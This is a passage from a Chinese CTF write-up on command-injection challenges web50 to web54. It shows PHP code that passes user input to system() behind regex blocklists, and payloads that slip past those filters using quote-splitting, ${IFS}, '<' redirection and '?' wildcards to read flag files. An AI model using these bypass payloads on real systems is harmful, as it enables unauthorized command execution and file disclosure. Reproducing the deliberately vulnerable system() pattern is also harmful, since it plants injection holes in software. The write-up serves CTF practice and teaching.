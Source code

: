 本题增加了对制表符,`&`符号的过滤,但是没有或符号

payload`?c=tac<fla''g.php||ls`

`c=nl<fla''g.php||ls`如果使用nl的话,读出来需要查看源码

如若要使用<绕过空格过滤,必须是全名,可以使用''来绕过并补全文件名

### web51

多了一个对tac的过滤,用nl操作

`c=nl<fla''g.php||ls`

### web52

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```



这题把`<`过滤了,但是把`$`放出来了

`c=nl${IFS}fla''g.php||ls`

得到这样的flag`$flag="flag_here";`

后面发现根目录也有一个flag,想办法读取根目录这个flag文件

payload`c=nl${IFS}/fla''g||ls`



### web53

payload`c=nl${IFS}fl?g.php`

### web54

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```
